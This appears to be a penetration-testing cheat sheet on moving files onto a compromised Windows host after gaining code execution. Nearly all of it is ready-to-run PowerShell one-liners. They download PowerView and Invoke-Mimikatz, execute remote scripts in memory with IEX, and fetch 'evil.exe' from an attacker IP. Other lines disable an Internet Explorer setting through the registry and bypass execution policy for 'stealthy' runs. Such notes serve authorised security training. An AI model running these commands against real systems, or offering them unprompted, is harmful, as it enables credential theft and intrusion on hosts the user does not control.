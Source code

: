 # File Transfer

There are many situations when transferring files either to or from a target system is necessary. We may successfully exploit a web application vulnerability, achieve RCE on a target web server, or even upload a web shell. There are many ways that we could upgrade our access to an interactive shell, and some require successfully transferring scripts, binaries, or tools to the target. During an internal assessment, we may find ourselves on a Windows host with a need to transfer over tools to perform enumeration of the Active Directory environment, to attempt privilege escalation, or have the need to download command output for offline processing.



## Windows File Transfer Methods

### PowerShell Downloads

```text
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

From PowerShell 3.0, Invoke-WebRequest is also available, but it is noticeably slower at downloading files. The aliases `iwr`, `curl`, and `wget` can be used instead of Invoke-WebRequest.

```text
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias `iex`.

```text
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX also accepts pipeline input.

```text
 Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.  
This can be bypassed using the parameter `-UseBasicParsing`.

```text
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```text
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

```text
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we can use PowerShell to run the script and download our file. However, to ensure both correct and stealthy execution, we specify a number of options in the execution of the script   
  
First, we must allow execution of PowerShell scripts \(which is restricted by default\) with the - ExecutionPolicy keyword and Bypass value. Next, we will use `-NoLogo` and `-NonInteractive` to hide the PowerShell logo banner and suppress the interactive PowerShell prompt, respectively. The `-NoProfile` keyword will prevent PowerShell from loading the default profile \(which is not needed\), and finally we specify the script file with `-File` 

```text
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

```text
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

```text
powershell.exe "IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')"
```

